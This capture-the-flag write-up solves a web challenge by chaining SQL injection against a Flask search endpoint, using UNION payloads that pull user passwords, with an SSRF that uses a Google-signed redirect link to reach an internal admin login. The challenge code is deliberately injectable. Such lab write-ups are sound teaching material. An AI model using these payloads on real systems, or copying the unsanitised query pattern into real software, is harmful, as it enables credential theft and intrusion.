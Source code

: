 # Googs 🕸️

> Category: Web Exploitation 🕸️
>
> Description: forgor 💀

## Walkthrough

![img](./images/search.png)

We come up with a search user page, smells like there is an SQLI here. Let's try if SQLI can occur here or not by sending **'**.

![img](./images/first.png)
![img](./images/response.png)

Yeah, confirmed SQLI attack can be done here.

Then, let's read the program code first!
```py
@app.route('/search-user', methods=['POST'])
def search_user():
    username = request.form.get('username')
    query = f"SELECT * FROM users WHERE username = '{username}'"
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    cursor.execute(query)
    user = cursor.fetchone()
    conn.close()
    if user:
        message = f"User found: {user[1]}"
    else:
        message = "User not found"

    return render_template('index.html', message=message)
```
After some careful reading we found out that the query is not sanitize properly which can lead to SQLI attacks (as what we confirmed earlier), and if it found the result of the SQL query, it will output it in an array of position **"[1]"** or if there is a table, it will output it in the second column like shown below.

|    [0]     |       [1]         |    [2]    |
| :--------: | :---------------: | :-------: |
| Not Shown  | SQL Query Result  | Not Shown |

This means that the result only can be shown/viewed in the second column which will helps us when doing the SQLI Union based attacks.

We also found out that there is a **"/login"** page.

![img](./images/login.png)

So, we need to perform the SQLI attacks to get the credentials before we able to login to the page.

After able to login to the page, it will proceed to the **"/dashboard"** page which will shows us the function to fetch any content via URL, which needs to be appended after the google URL.
```py
@app.route('/fetch', methods=['GET'])
def fetch():
    url = request.args.get('url')
    if not url:
        return jsonify({"error": "Please provide a URL with ?url=<target_url>"}), 400

    if not (url.startswith('https://google.com/url?q=')):
        return jsonify({"error": "Nice one, but not today"}), 400

    try:
        response = requests.get(url, timeout=5)
        content = response.text
    except requests.exceptions.RequestException as e:
        content = "Request failed"

    return render_template('dashboard.html', url=url, content=content)
```

We also found out that there is **"/internal-login"** page, but requires **"username=admin"** and **"password=S3cr3tP@ssw0rd"** to get the flag.
```py
@login_app.route('/internal-login', methods=['GET'])
def login():
    username = request.args.get('username')
    password = request.args.get('password')
    if username == "admin" and password == "S3cr3tP@ssw0rd":
        return jsonify({"flag": flag})
    else:
        return jsonify({"error": "Invalid credential"}), 403
```

However, in order to get to the **"/internal-login"** page, we need to access it with the **"login_app host"** and **"port"**.
```py
def run_fetch_app():
    app.run(host='0.0.0.0', port=5000)

def run_login_app():
    login_app.run(host='127.0.0.1', port=1337)
```

This means that this challenge requires us to conduct **SQLI** to get the login credentials, then conduct an **SSRF** attacks to get the flag.

## Solution

Let's try the basic SQLI first shall we.
```sql
' OR '1'='1
```

What will the query becomes:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```
The query will search from table users for the username, and the **'1'='1'** will return **"TRUE"** and complete the query (Retrieve all username found in the table users).

![img](./images/username.png)

We get an output which shows us the username of the user inside the database.

So now, how about the password of the user?

Let's read first how the database users table is initialized first.
```py
def init_db():
    conn = sqlite3.connect('database.db')
    cursor = conn.cursor()
    cursor.execute('''
        CREATE TABLE IF NOT EXISTS users (
            id INTEGER PRIMARY KEY AUTOINCREMENT,
            username TEXT NOT NULL,
            password TEXT NOT NULL
        )
    ''')
```
So we just need to retrieve the password column which corresponds to the user's username.

Based on our recon info, we can use SQLI Union attacks to get the user's password.
```sql
' UNION SELECT 1, password, 3 FROM users WHERE username='fake_username' --   
```

What will the query becomes:
```sql
SELECT * FROM users WHERE username = '' UNION SELECT 1, password, 3 FROM users WHERE username='fake_username' --'
```
The query will return the result of the SQL UNION statement which is the password for the user based on its username.

![img](./images/password.png)

So now, let's login to the page using the credentials.

![img](./images/dashboard.png)

After login to the page, we need to conduct the SSRF attacks which will forge a request so that the request is coming from the server itself.

The common SSRF form will looks like:
```bash
http://<chall-ip>:<chall-port>/fetch?q=http://127.0.0.1:1337/internal-login?username=admin&password=S3cr3tP@ssw0rd
```

But for this challenge, we need to use the google URL to conduct the SSRF.
```bash
https://google.com/fetch?q=http://127.0.0.1:1337/internal-login?username=admin&password=S3cr3tP@ssw0rd
```

This will fails because of the google will shows the redirect notice as it cannot process the request directly due to it is an unknown link.

![img](./images/redirect.png)

So it is not possible to conduct the SSRF attack unless we make the link not an unknown link.

But, how?

We can utilise either google docs or gmail to sign the link for us.

Simply copy the internal link then send it to ourselves.

![img](./images/gmail.png)

Then, inspect the gmail to get the signed link.

![img](./images/signed.png)

```bash
https://www.google.com/url?q=http://localhost:1337/internal-login?username%3Dadmin%26password%3DS3cr3tP@ssw0rd&source=gmail&ust=1751271388881000&usg=AOvVaw22_rZv9_3GapClLPDvEa_y
```

Nice, now let's try with this link. Make sure to remove the **"www."** so that it will not get any errors.

![img](./images/solve.png)

## 🏳️Flag:
>solved after the competition
>
>![gif](./images/Skill_Issue_Peepo.gif)